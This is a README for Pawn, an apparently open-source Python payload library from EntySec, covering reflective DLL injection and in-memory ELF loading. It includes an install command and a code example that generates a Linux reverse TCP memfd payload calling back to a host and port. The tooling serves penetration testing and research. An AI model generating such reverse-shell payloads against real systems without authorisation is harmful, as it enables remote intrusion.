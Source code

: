 # Pawn

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn/forks">
        <img src="https://img.shields.io/github/forks/EntySec/Pawn?color=green">
    </a>
    <a href="https://github.com/EntySec/Pawn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pawn?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/Pawn">
        <img src="https://www.codefactor.io/repository/github/EntySec/Pawn/badge">
    </a>
</p>

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

payload, send_size = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    host='127.0.0.1',
    port=8888
)

print(len(payload))
print(payload)
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
